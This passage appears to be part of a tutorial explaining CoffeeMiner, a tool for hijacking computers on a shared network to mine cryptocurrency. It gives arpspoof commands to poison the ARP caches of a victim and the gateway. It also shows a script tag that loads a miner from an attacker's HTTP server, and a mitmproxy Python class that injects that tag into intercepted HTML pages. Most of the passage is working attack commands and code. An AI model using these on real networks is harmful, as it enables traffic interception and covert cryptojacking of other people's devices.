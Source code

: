 ## 2. CoffeeMiner, understanding the code

### 2.1 ARPspoofing
First of all, we need to understand how the MITM attack is performed.

From wikipedia:

*"In computer networking, ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network. Generally, the aim is to associate the attacker's MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead."*

https://en.wikipedia.org/wiki/ARP_spoofing

To perform the ARPspoofing attack, we will use the **dsniff** library.

```bash
arpspoof -i interface -t ipVictim ipGateway
arpspoof -i interface -t ipGateway ipVictim
```

### 2.2 mitmproxy
[mitmproxy](https://mitmproxy.org/) is a software tool that allows us to analyze the traffic that goes through a host, and allows to edit that traffic. In our case, we will use it to inject the javascript into the html pages.

To make the process more more clean, we will only inject one line of code into the html pages. And will be that line of html code that will call to the javascript cryptocurrency miner.

The line to inject the crypto miner is:
```html
<script src="http://httpserverIP:8000/script.js"></script>
```


### 2.3 Injector
Once we have the victim's traffic intercepted, we need to inject our script on it. We will use the mitmproxy API to do the injector:

```python
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse

class Injector:
    def __init__(self, path):
        self.path = path

    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")

def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
```
